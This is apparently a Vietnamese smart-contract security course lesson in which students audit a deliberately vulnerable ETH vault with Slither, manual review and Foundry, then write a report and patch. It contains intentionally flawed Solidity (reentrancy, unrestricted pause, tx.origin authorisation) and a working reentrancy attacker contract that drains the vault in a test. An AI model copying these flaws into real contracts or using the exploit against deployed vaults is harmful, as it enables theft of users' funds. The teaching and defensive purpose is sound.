

# Bài 25 — Capstone 2: Audit contract có lỗ hổng, viết report

## 1. Mục tiêu
Đây là **dự án thực chiến**. Bạn nhận một contract vault (két gửi/rút ETH) có sẵn **hai lỗ hổng**: **reentrancy** và **access control**. Nhiệm vụ của bạn là làm đúng quy trình một auditor chuyên nghiệp:

- Chạy **Slither** (static analysis) để quét lỗ hổng tự động, đọc và lọc kết quả (true positive vs false positive).
- **Review tay** (manual review) theo checklist — thứ Slither không bắt được.
- Viết **PoC exploit** (Proof of Concept) bằng **Foundry** để *chứng minh* lỗ hổng khai thác được thật, không chỉ nói suông.
- Phân loại **severity** theo ma trận Impact × Likelihood (chuẩn của các firm như OpenZeppelin, Trail of Bits, Code4rena).
- Viết **audit report** đúng chuẩn: mỗi finding gồm Title, Severity, Description, Impact, PoC, Recommendation.

Học xong bài này bạn có một **portfolio artifact** thật: một report có thể đưa vào CV apply job security.

---

## 2. Đối tượng audit: contract `Vault`

Đây là contract cần audit. Đọc kỹ — mọi lỗ hổng đều nằm trong ~40 dòng này.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

contract Vault {
    mapping(address => uint256) public balances;
    address public owner;
    bool public paused;

    constructor() {
        owner = msg.sender;
    }

    // Ai cũng gọi được — thiết kế đúng
    function deposit() external payable {
        require(!paused, "paused");
        balances[msg.sender] += msg.value;
    }

    // LỖ HỔNG #1: reentrancy — gửi ETH TRƯỚC khi cập nhật state
    function withdraw() external {
        uint256 amount = balances[msg.sender];
        require(amount > 0, "insufficient");
        (bool ok, ) = msg.sender.call{value: amount}("");
        require(ok, "transfer failed");
        balances[msg.sender] = 0;            // cập nhật SAU khi gọi ngoài
    }

    // LỖ HỔNG #2: access control — thiếu kiểm tra owner
    function setPaused(bool _paused) external {
        paused = _paused;                    // ai cũng pause được cả vault
    }

    // Hàm rút khẩn cấp — CHỈ owner được gọi (nhưng...)
    function emergencyWithdraw() external {
        require(tx.origin == owner, "not owner");  // dùng tx.origin — sai!
        (bool ok, ) = msg.sender.call{value: address(this).balance}("");
        require(ok, "failed");
    }
}
```

Trước khi đọc tiếp, hãy tự tìm: bạn thấy được mấy lỗi? Thực tế có **3 vấn đề** ở đây (2 nghiêm trọng + 1 anti-pattern nguy hiểm).

---

## 3. Bước 1 — Static analysis với Slither

Slither là công cụ phân tích tĩnh (không chạy code, chỉ đọc AST + control flow) của Trail of Bits. Nó bắt được ~80% lỗ hổng phổ biến trong vài giây. **Luôn chạy Slither đầu tiên** — nó rẻ và nhanh.

```bash
# Cài (cần Python 3.8+ và solc)
pip install slither-analyzer
solc-select install 0.8.20 && solc-select use 0.8.20

# Chạy trên file
slither src/Vault.sol

# Hoặc trong project Foundry (Slither tự hiểu remappings)
slither .
```

Output rút gọn (đã lọc phần quan trọng):

```
Reentrancy in Vault.withdraw() (src/Vault.sol#19-24):
    External calls:
    - (ok,None) = msg.sender.call{value: amount}() (src/Vault.sol#22)
    State variables written after the call(s):
    - balances[msg.sender] = 0 (src/Vault.sol#23)
    Reference: https://github.com/crytic/slither/wiki/Detector-Documentation#reentrancy-vulnerabilities

Vault.emergencyWithdraw() uses tx.origin for authorization (src/Vault.sol#26-29):
    - require(bool,string)(tx.origin == owner,not owner)
    Reference: ...#dangerous-usage-of-tx-origin
```

Đọc kết quả Slither cần **kỹ năng phân loại**, không phải cái nào đỏ cũng là bug:

| Slither báo | Đây là gì | Kết luận |
|-------------|-----------|----------|
| Reentrancy in `withdraw` | External call trước khi reset state | **True positive** — đúng bug High |
| `tx.origin` for authorization | Anti-pattern bị phishing | **True positive** — bug Medium |
| `setPaused` — **KHÔNG** báo | Slither không biết business logic "chỉ owner được pause" | **False negative** — phải review tay! |

> Bài học quan trọng: **Slither không hiểu ý định của bạn.** Nó không biết `setPaused` *lẽ ra* phải giới hạn owner. Lỗ hổng access control kiểu "thiếu modifier" thường lọt lưới static analysis — đó là lý do **manual review là bắt buộc**.

---

## 4. Bước 2 — Manual review theo checklist

Auditor giỏi review theo checklist có hệ thống. Dưới đây là các lớp cần soi cho một vault:



Áp checklist vào `Vault`:

**a) Access control — "ai được gọi hàm này?"**
- `setPaused()` — không có kiểm tra gì. **Bất kỳ ai** cũng gọi `setPaused(true)` để đóng băng toàn bộ deposit của người khác → DoS. Đây là **Missing Access Control**, Slither bỏ sót.
- `emergencyWithdraw()` — dùng `tx.origin == owner`. `tx.origin` là **địa chỉ ví gốc** khởi tạo chuỗi call, không phải người gọi trực tiếp. Nếu owner bị lừa gọi một contract độc hại, contract đó gọi lại `emergencyWithdraw()` và `tx.origin` vẫn = owner → **phishing thành công**. Phải dùng `msg.sender`.

**b) Checks-Effects-Interactions (CEI) — thứ tự trong hàm chuyển tiền**

Nguyên tắc vàng: **Checks** (require) → **Effects** (cập nhật state) → **Interactions** (gọi ngoài). Hàm `withdraw` làm ngược: gọi ngoài *trước*, update balance *sau*. Đây chính là reentrancy.

<svg viewBox="0 0 720 300" role="img" aria-labelledby="re-t re-d" style="width:100%;max-width:680px;height:auto;display:block;margin:1.25rem auto">
<title id="re-t">Vòng lặp tấn công reentrancy</title>
<desc id="re-d">Attacker gọi withdraw, contract gửi ETH kích hoạt fallback, fallback gọi lại withdraw trước khi balance bị reset về 0, lặp lại rút cạn vault</desc>
<rect x="30" y="120" width="130" height="60" rx="8" fill="#f43f5e" fill-opacity="0.14" stroke="currentColor"/>
<text x="95" y="148" text-anchor="middle" font-size="13" fill="currentColor">Attacker</text>
<text x="95" y="166" text-anchor="middle" font-size="11" fill="currentColor">contract</text>
<rect x="540" y="120" width="150" height="60" rx="8" fill="#3b82f6" fill-opacity="0.14" stroke="currentColor"/>
<text x="615" y="148" text-anchor="middle" font-size="13" fill="currentColor">Vault.withdraw()</text>
<text x="615" y="166" text-anchor="middle" font-size="11" fill="currentColor">balance chưa reset</text>
<line x1="160" y1="140" x2="538" y2="140" stroke="currentColor" stroke-width="1.5" marker-end="url(#a2)"/>
<text x="350" y="132" text-anchor="middle" font-size="12" fill="currentColor">1. withdraw()</text>
<line x1="540" y1="162" x2="162" y2="162" stroke="#f43f5e" stroke-width="1.5" marker-end="url(#a3)"/>
<text x="350" y="180" text-anchor="middle" font-size="12" fill="#f43f5e">2. call{value:1 ETH} → kích hoạt receive()</text>
<path d="M95 120 C 95 40, 615 40, 615 118" fill="none" stroke="#f59e0b" stroke-width="1.5" marker-end="url(#a2)"/>
<text x="355" y="35" text-anchor="middle" font-size="12" fill="#f59e0b">3. receive() gọi lại withdraw() — balance VẪN đủ → rút tiếp</text>
<text x="360" y="235" text-anchor="middle" font-size="12" fill="currentColor">Lặp 2→3 tới khi vault cạn. balance chỉ bị reset SAU cùng, đã quá muộn.</text>
<text x="360" y="258" text-anchor="middle" font-size="11" fill="currentColor">Gốc rễ: Interactions chạy TRƯỚC Effects (vi phạm CEI)</text>
<defs>
<marker id="a2" markerWidth="9" markerHeight="9" refX="7" refY="3" orient="auto"><path d="M0,0 L7,3 L0,6 Z" fill="currentColor"/></marker>
<marker id="a3" markerWidth="9" markerHeight="9" refX="7" refY="3" orient="auto"><path d="M0,0 L7,3 L0,6 Z" fill="#f43f5e"/></marker>
</defs>
</svg>

---

## 5. Bước 3 — Viết PoC exploit bằng Foundry

Nói "có bug" là chưa đủ. Auditor chuyên nghiệp **chứng minh** bằng test khai thác được thật. Foundry (framework test Solidity bằng chính Solidity) là chuẩn công nghiệp cho việc này.

```bash
# Khởi tạo project
forge init vault-audit && cd vault-audit
# Đặt Vault.sol vào src/, viết test vào test/
forge test -vvv          # chạy, -vvv để xem trace chi tiết
```

### 5.1 PoC reentrancy — rút cạn vault

Ý tưởng: nạp một contract tấn công có hàm `receive()` gọi đệ quy `withdraw()`.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import "forge-std/Test.sol";
import "../src/Vault.sol";

contract Attacker {
    Vault public vault;
    uint256 constant AMOUNT = 1 ether;

    constructor(Vault _vault) { vault = _vault; }

    // Kích hoạt tấn công: deposit 1 ETH rồi withdraw
    function attack() external payable {
        vault.deposit{value: AMOUNT}();
        vault.withdraw();
    }

    // Bị gọi mỗi lần Vault gửi ETH về — đệ quy tại đây
    receive() external payable {
        if (address(vault).balance >= AMOUNT) {
            vault.withdraw();   // rút tiếp khi balance chưa bị reset về 0
        }
    }
}

contract ReentrancyTest is Test {
    Vault vault;
    Attacker attacker;

    function setUp() public {
        vault = new Vault();
        // Nạn nhân khác gửi 5 ETH vào vault
        vm.deal(address(0xBEEF), 5 ether);
        vm.prank(address(0xBEEF));
        vault.deposit{value: 5 ether}();
    }

    function test_ReentrancyDrainsVault() public {
        attacker = new Attacker(vault);
        vm.deal(address(this), 1 ether);

        assertEq(address(vault).balance, 5 ether); // trước tấn công

        attacker.attack{value: 1 ether}();

        // Attacker chỉ bỏ 1 ETH nhưng rút được toàn bộ 6 ETH
        assertEq(address(vault).balance, 0);
        assertEq(address(attacker).balance, 6 ether);
    }
}
```

Chạy `forge test -vvv`, test **PASS** → lỗ hổng được xác nhận: attacker bỏ 1 ETH, lấy ra 6 ETH. Trace `-vvv` cho thấy `withdraw` được gọi 6 lần lồng nhau trước khi bất kỳ lệnh `balances[...] = 0` nào chạy. (Lưu ý: pattern reset-về-0 khai thác được sạch trên Solidity 0.8.x; nếu contract dùng `balances -= amount` thì checked arithmetic của 0.8 sẽ underflow-revert khi unwind — một chi tiết auditor cần nắm.)

### 5.2 PoC access control — pause vault của người khác

```solidity
function test_AnyoneCanPause() public {
    address rando = address(0x1234);
    vm.prank(rando);           // giả lập rando gọi
    vault.setPaused(true);     // KHÔNG revert — sai!

    assertTrue(vault.paused());

    // Hệ quả: nạn nhân không deposit được nữa → DoS
    vm.deal(address(0xBEEF), 1 ether);
    vm.prank(address(0xBEEF));
    vm.expectRevert("paused");
    vault.deposit{value: 1 ether}();
}
```

Test PASS chứng minh **bất kỳ địa chỉ nào** cũng đóng băng được vault → từ chối dịch vụ (DoS) cho toàn bộ user.

---

## 6. Bước 4 — Phân loại severity

Severity không phải cảm tính. Dùng ma trận **Impact × Likelihood** (chuẩn Code4rena / OpenZeppelin):

<svg viewBox="0 0 620 260" role="img" aria-labelledby="sv-t sv-d" style="width:100%;max-width:600px;height:auto;display:block;margin:1.25rem auto">
<title id="sv-t">Ma trận severity Impact x Likelihood</title>
<desc id="sv-d">Bảng lưới ba nhân ba, impact tăng theo trục dọc và likelihood theo trục ngang, ô góc trên phải là Critical</desc>
<text x="310" y="20" text-anchor="middle" font-size="13" fill="currentColor">Likelihood (khả năng xảy ra) →</text>
<text x="24" y="140" text-anchor="middle" font-size="13" fill="currentColor" transform="rotate(-90 24 140)">Impact →</text>
<rect x="60" y="40" width="170" height="60" fill="#f59e0b" fill-opacity="0.14" stroke="currentColor"/>
<text x="145" y="75" text-anchor="middle" font-size="12" fill="currentColor">Medium</text>
<rect x="230" y="40" width="170" height="60" fill="#f43f5e" fill-opacity="0.14" stroke="currentColor"/>
<text x="315" y="75" text-anchor="middle" font-size="12" fill="currentColor">High</text>
<rect x="400" y="40" width="170" height="60" fill="#f43f5e" fill-opacity="0.14" stroke="currentColor"/>
<text x="485" y="75" text-anchor="middle" font-size="12" fill="currentColor">Critical</text>
<rect x="60" y="100" width="170" height="60" fill="#10b981" fill-opacity="0.14" stroke="currentColor"/>
<text x="145" y="135" text-anchor="middle" font-size="12" fill="currentColor">Low</text>
<rect x="230" y="100" width="170" height="60" fill="#f59e0b" fill-opacity="0.14" stroke="currentColor"/>
<text x="315" y="135" text-anchor="middle" font-size="12" fill="currentColor">Medium</text>
<rect x="400" y="100" width="170" height="60" fill="#f43f5e" fill-opacity="0.14" stroke="currentColor"/>
<text x="485" y="135" text-anchor="middle" font-size="12" fill="currentColor">High</text>
<rect x="60" y="160" width="170" height="60" fill="#10b981" fill-opacity="0.14" stroke="currentColor"/>
<text x="145" y="195" text-anchor="middle" font-size="12" fill="currentColor">Low</text>
<rect x="230" y="160" width="170" height="60" fill="#10b981" fill-opacity="0.14" stroke="currentColor"/>
<text x="315" y="195" text-anchor="middle" font-size="12" fill="currentColor">Low</text>
<rect x="400" y="160" width="170" height="60" fill="#f59e0b" fill-opacity="0.14" stroke="currentColor"/>
<text x="485" y="195" text-anchor="middle" font-size="12" fill="currentColor">Medium</text>
<text x="145" y="240" text-anchor="middle" font-size="11" fill="currentColor">Low</text>
<text x="315" y="240" text-anchor="middle" font-size="11" fill="currentColor">Medium</text>
<text x="485" y="240" text-anchor="middle" font-size="11" fill="currentColor">High</text>
</svg>

Áp cho các finding:

| Finding | Impact | Likelihood | Severity |
|---------|--------|------------|----------|
| Reentrancy trong `withdraw` | Cao (mất **toàn bộ** quỹ) | Cao (ai cũng khai thác được, không tốn kém) | **Critical / High** |
| Missing access control `setPaused` | Trung bình (DoS, tiền không mất vĩnh viễn) | Cao (ai cũng gọi được) | **Medium** |
| `tx.origin` cho authorization | Cao (mất toàn bộ quỹ khẩn cấp) | Thấp (cần lừa owner ký) | **Medium** |

> Ghi nhớ: **Impact** = "nếu xảy ra thì mất gì" (tiền, quyền kiểm soát, dữ liệu). **Likelihood** = "khai thác dễ hay khó" (tốn phí? cần điều kiện đặc biệt? cần social engineering?). Mất toàn bộ quỹ + dễ khai thác = Critical, mức cao nhất.

---

## 7. Bước 5 — Bản vá (để đề xuất Recommendation chuẩn)

Auditor không chỉ chỉ lỗi, mà đề xuất **cách sửa cụ thể**. Đây là contract sau khi vá cả 3 vấn đề:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import "@openzeppelin/contracts/utils/ReentrancyGuard.sol";
import "@openzeppelin/contracts/access/Ownable.sol";

contract VaultFixed is ReentrancyGuard, Ownable {
    mapping(address => uint256) public balances;
    bool public paused;

    constructor() Ownable(msg.sender) {}

    function deposit() external payable {
        require(!paused, "paused");
        balances[msg.sender] += msg.value;
    }

    // FIX #1: CEI đúng thứ tự + nonReentrant làm lớp phòng thủ 2
    function withdraw() external nonReentrant {
        uint256 amount = balances[msg.sender];             // Checks
        require(amount > 0, "insufficient");
        balances[msg.sender] = 0;                          // Effects TRƯỚC
        (bool ok, ) = msg.sender.call{value: amount}("");  // Interactions SAU
        require(ok, "transfer failed");
    }

    // FIX #2: thêm onlyOwner
    function setPaused(bool _paused) external onlyOwner {
        paused = _paused;
    }

    // FIX #3: dùng msg.sender (Ownable's onlyOwner) thay tx.origin
    function emergencyWithdraw() external onlyOwner {
        (bool ok, ) = msg.sender.call{value: address(this).balance}("");
        require(ok, "failed");
    }
}
```

Ba nguyên tắc phòng thủ:
1. **CEI** — luôn cập nhật state trước khi gọi ngoài. Đây là fix *gốc rễ*, không tốn gas thêm.
2. **`nonReentrant`** — modifier khóa reentrancy (defense-in-depth). Đừng dựa duy nhất vào nó; CEI vẫn phải đúng.
3. **`onlyOwner`** từ `Ownable` chuẩn của OpenZeppelin — không tự viết access control, dùng thư viện đã audit.

Chạy lại toàn bộ PoC test trên `VaultFixed`: cả `test_ReentrancyDrainsVault` và `test_AnyoneCanPause` giờ **revert/FAIL to exploit** → xác nhận vá thành công.

---

## 8. Bước 6 — Viết audit report chuẩn

Report là sản phẩm cuối. Mỗi finding theo cấu trúc cố định. Dưới đây là mẫu chuẩn công nghiệp cho finding nghiêm trọng nhất:

```markdown
## [H-01] Reentrancy trong Vault.withdraw cho phép rút cạn toàn bộ quỹ

**Severity:** High
**Status:** Open
**Location:** src/Vault.sol#L19-L24

### Description
Hàm `withdraw()` gửi ETH cho `msg.sender` bằng low-level `call` TRƯỚC khi
đặt `balances[msg.sender] = 0`. Vì `call` chuyển quyền thực thi cho địa chỉ
nhận, một contract độc hại có thể dùng `receive()` để gọi đệ quy lại
`withdraw()` khi balance chưa bị reset về 0 — vi phạm nguyên tắc
Checks-Effects-Interactions.

### Impact
Kẻ tấn công chỉ cần deposit một lượng nhỏ rồi rút lặp lại để lấy TOÀN BỘ
ETH trong vault, bao gồm tiền của mọi user khác. Mất mát 100% quỹ.

### Proof of Concept
(đính kèm test/ReentrancyTest.sol — attacker bỏ 1 ETH, rút ra 6 ETH,
vault về 0. `forge test -vvv` PASS.)

### Recommendation
1. Áp dụng CEI: đặt `balances[msg.sender] = 0` TRƯỚC khi `call`.
2. Bổ sung modifier `nonReentrant` (OpenZeppelin ReentrancyGuard) làm lớp
   phòng thủ thứ hai.
```

Cấu trúc mọi finding cần có:

| Trường | Mục đích |
|--------|----------|
| **Title** có mã `[H-01]` | Định danh, xếp theo severity |
| **Severity** | High/Medium/Low/Info — quyết định ưu tiên vá |
| **Location** | File + line, để dev tìm ngay |
| **Description** | *Gốc rễ kỹ thuật*, không mơ hồ |
| **Impact** | Hậu quả bằng ngôn ngữ business (mất bao nhiêu tiền) |
| **PoC** | Bằng chứng khai thác được — thứ tách auditor giỏi khỏi người "đoán bug" |
| **Recommendation** | Cách sửa cụ thể, có code nếu được |

Report tổng thể còn cần: **Summary** (số finding theo severity), **Scope** (commit hash + file audit), **Methodology** (Slither + manual + Foundry PoC), và **Disclaimer** (audit không đảm bảo tuyệt đối không còn bug).

---

## 9. Tóm tắt
- Quy trình audit chuẩn: **Slither (tự động) → manual review (checklist) → PoC Foundry (chứng minh) → severity → report**.
- **Slither nhanh nhưng không hiểu business logic** — lỗ hổng "thiếu access control" thường lọt lưới, phải review tay.
- **Reentrancy** gốc rễ là vi phạm **CEI** (Interactions trước Effects); vá bằng đổi thứ tự + `nonReentrant`.
- **`tx.origin` cho authorization** là anti-pattern — luôn dùng `msg.sender` / `onlyOwner`.
- **Severity = Impact × Likelihood**; mất toàn bộ quỹ + dễ khai thác = Critical/High.
- **PoC là bắt buộc**: một finding không có test khai thác được chỉ là phỏng đoán. Foundry cho phép viết exploit ngay bằng Solidity.
- Report chuẩn: mỗi finding có Title/Severity/Location/Description/Impact/PoC/Recommendation — đây là artifact bạn đưa vào portfolio.

> **Bài tiếp theo:** tổng kết lộ trình từ nền tảng đến chuyên gia — con đường sự nghiệp Web3 (auditor, protocol dev, security researcher) và cách xây portfolio thực chiến.
